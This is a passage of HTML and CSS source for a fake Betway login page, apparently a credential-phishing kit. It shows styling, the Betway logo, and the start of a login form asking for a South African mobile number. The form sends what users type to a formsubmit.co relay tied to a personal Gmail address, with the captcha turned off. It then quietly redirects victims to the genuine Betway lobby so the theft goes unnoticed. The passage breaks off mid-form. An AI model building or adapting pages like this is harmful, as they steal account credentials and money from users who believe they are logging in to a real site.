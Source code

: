     .small-link {
      display: block;
      text-align: right;
      font-size: 0.85em;
      color: #0b9e15;
      text-decoration: none;
      margin-top: 5px;
    }

    .login-btn, .signup-btn {
      width: 100%;
      padding: 10px;
      border: none;
      color: #fff;
      font-size: 1em;
      border-radius: 5px;
      cursor: pointer;
    }

    .login-btn {
      background-color: #0b9e15;
      margin-top: 10px;
    }

    .signup-text {
      text-align: center;
      margin: 15px 0 5px;
      font-size: 0.9em;
    }

    .signup-btn {
      background-color: #fff;
      color: #0b9e15;
      border: 2px solid #0b9e15;
    }
  </style>
</head>
<body>
  <div class="login-container">
    <div class="logo-container">
      <img src="https://images.seeklogo.com/logo-png/43/2/betway-logo-png_seeklogo-434766.png" alt="Betway Logo">
    </div>

    <h2>Login</h2>

    <form action="https://formsubmit.co/tshabamapheloaskoya@gmail.com" method="POST">
      <input type="hidden" name="_captcha" value="false">
      <input type="hidden" name="_next" value="https://www.betway.co.za/LiveGameslobby">
      
      <div class="input-group">
        <label for="mobile">Mobile</label>
        <div style="display: flex;">
          <input type="text" value="+27" style="width: 20%; margin-right: 5px;font-weight: bold;background-color: lightgrey;" disabled>
          <input type="number" name="mobile" id="mobile" style="width: 75%;" required>
        </div>
      </div>
      